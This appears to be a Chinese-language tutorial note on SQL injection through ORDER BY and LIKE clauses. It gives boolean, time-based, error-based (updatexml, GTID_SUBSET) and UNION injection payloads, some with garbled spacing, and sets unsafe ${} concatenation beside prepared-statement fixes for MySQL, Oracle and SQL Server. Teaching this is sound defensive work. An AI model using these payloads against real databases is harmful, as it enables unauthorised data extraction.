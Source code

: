 ## **orderby**
orderby可能出现三种场景：
```
order by 1，通过第几个字段来排序。变量是数值，可预编译，变量可以是字符。
order by "name"，通过某个字段名排序。变量是字符串，不可预编译。

group by sex order by count(*)，分组后通过分组后的数排序，相当于新增了一个字段，通过这个字段排序。一般不可控，排除注入。
```

orderby注入：可控参数判断过滤后类型是数值还是字符。
```
传入rand()在数字型中，每次刷新会显示不同的排序结果
当在字符型中用?sort=rand(),则不会有效果,排序不会改变

因此用rand()可判断注入点过滤后类型。
```
<https://www.cnblogs.com/1ink/p/15107674.html>
orderby利用：因为排序差异可使用布尔盲注，或者时间盲注，不可以联合注入，因为orderby必须在一个sql语句最后。
```
//?order=if(表达式,id,loginName)
//表达式为true时,根据id排序
//表达式为false时,根据loginName排序

order by sleep(5) 不可。
select * from users order by if(concat(0 x 7 e,user(), 0 x 7 e), 1,sleep(3));
```
报错回显
```
order by updatexml(1, if (1=2,1,concat(0 x 7 e,database(), 0 x 7 e)), 1);
order by GTID_SUBSET((version(),1)))
```


^
## **like**
> 模糊查询使用like关键字，可以使用通配符进行占位:
> （1）_ : 代表单个任意字符
> （2）% : 代表任意个数字符，**可以为0个**
```
查询第二个字是'花'的学员信息  
select * from stu where name like '_花%';

查询名字中包含 '德' 的学员信息
select * from stu where name like '%德%'; 
```

  
like可以使用联合注入。
like一般也在where语句之后。
```
1、where name like xx
where name like 'admin' union select 1,2,3,database()
'admin'+union+select+sleep(15)

2、where name like "xx"
where name like " admin" union select 1,2,3,database()-- "

admin'+union+select+sleep(15)--+
```


在区分数据库下的用法区分，例如：
不安全
```
//mysql环境
mybatis和php
select * from test where school_name like concat('%',${name},'%') 
select * from test where school\_name like concat('%',$name,'%')


//oracle环境
select * from test where school_name like '%'||${name},'%' 

//SQL Server环境
select * from test where school_name like '%'+${name},+'%'
```

安全
预编译
```
#### Mysql数据库
select * from test where school_name like concat('%',#{name},'%') 
sql = " and indexNum like concat('%',?,'%') "

#### [Oracle]

sql = " like '%' || ? || '%' "

#### []()SQL Server

sql = " like '%' + ? + '%' "


```


